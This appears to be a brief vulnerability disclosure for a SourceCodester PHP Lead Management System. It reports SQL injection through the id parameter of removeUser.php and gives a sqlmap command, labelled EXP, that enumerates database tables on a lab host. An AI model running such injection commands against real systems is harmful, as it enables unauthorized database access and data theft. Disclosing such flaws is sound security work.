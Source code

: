 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image-20221219172233057](C:\markdown\images\image-20221219172233057.png)

EXP

```
sqlmap.py -u "http://192.168.31.50/penglead/php_action/removeUser.php?id=1" --dbms=mysql -D penglead --tables
```

![image-20221219172602225](C:\markdown\images\image-20221219172602225.png)